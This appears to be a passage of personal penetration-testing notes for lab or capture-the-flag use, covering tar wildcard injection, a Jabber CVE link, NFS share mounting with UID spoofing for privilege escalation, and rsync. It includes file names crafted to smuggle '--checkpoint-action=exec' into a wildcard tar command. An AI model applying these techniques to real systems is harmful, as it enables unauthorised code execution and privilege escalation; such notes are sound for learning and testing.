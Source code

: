 2. touch /home/user/--checkpoint=1
3. touch /home/user/--checkpoint-action=exec=sh\ exploit.sh
4. Because of the wild card being used, the --checkpoint=1 and --checkpoint-action=exec=sh\ exploit.sh will actually be included in the tar command, resulting our exploit.sh to be executed

tar --checkpoint=1 --checkpoint-action=exec=sh exploit.sh >> Like this


**JABBER 5222**
1. Spark(?)
2. https://github.com/theart42/cves/blob/master/cve-2020-12772/CVE-2020-12772.md



**NFS2049**
1. showmount -e <remote-ip>
2. sudo mkdir /mnt/[name_of_the_mount]
3. sudo mount <remote-ip>:[shared_directory] /mnt/[name_of_the_mount]
===
If there's NFS Service running but u cant remote. Very likely it will be used in privesc and not foothold
1. Check `cat /etc/exports` (if rw, root_squash flag enabled on the shared directory), you can mount it to your local machine
2. sudo mkdir /mnt/[name_of_the_mounts]; sudo mount -t nfs <remote-ip>:<shared_directory> /mnt/[name_of_the_mount] 
3. Now you can access the directory locally.
4. If permission is denied when accessing, create a user with the same name, same UID, and same GID, as the owner of the share. (to create the same environment)
```
sudo useradd -u [id] -d [home_directory, /dev/shm atau tmp aja sih] [username]
to delete it
sudo userdel -r [username]
```
5. sudo su to the user and now you can access it. 
===
IMPORTANT NOTES
1. When you do this 
`sudo mount -t nfs <remote-ip>:<shared_directory> /mnt/[name_of_the_mount]` or 
`sudo mount <remote-ip>:[shared_directory] /mnt/[name_of_the_mount]` (Its the same btw)

IF YOU GET AN ERROR, LIKE THIS:

`mount.nfs: requested NFS version or transport protocol is not supported`

TRY TO CHANGE THE SHARED DIRECTORY TO / 
example: localhost:/

2. WHY? It's on the Redhat documentation I forgot where. I spent like 6 hours researching to fix this error, and the fix is just simply change the shared directory part to /.

https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe
You can use that for privilege escalation as shown in this link.



**RSYNC873**
Basically rsync allow us to sync remote directory to our local directory so we can access it locally. Same like NFS.
